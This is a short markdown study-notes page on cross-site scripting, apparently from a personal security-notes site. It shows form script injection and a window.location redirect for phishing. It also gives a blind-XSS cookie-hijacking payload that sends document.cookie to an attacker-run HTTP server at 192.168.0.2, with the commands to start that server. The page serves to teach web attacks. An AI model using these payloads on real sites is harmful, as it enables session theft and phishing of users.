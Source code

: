 ```yaml
---
layout: post
title: 'Notes | XSS'
permalink: /notes/web/xss/
---
```



# General

If we have a form we can try to insert code, like this:
{% highlight html %}
<script> ... </script>
{% endhighlight %}
If the page execute what are in the form we can make several damage to the page.

There are some examples:
{% highlight html %}
<script> window.location="" </script>
{% endhighlight %}
This will send the target to a different page (phishing).

Also, if we use **deface** we can send a visitor to another part of the webpage. This can break the whole page.

# Blind XSS
We can use XSS to a cookie hijacking. First we need to start an http server, we can do it with python...:
{% highlight bash %}
> python -m http.server 80
{% endhighlight %}
or php...:
{% highlight bash %}
> php -S 0.0.0.0:80
{% endhighlight %}

Then we send others cookie to our http server:
{% highlight html %}
<script>document.write('<img src="http://192.168.0.2:80/xss.png?cookie='+ document.cookie + "')</script>
{% endhighlight %}
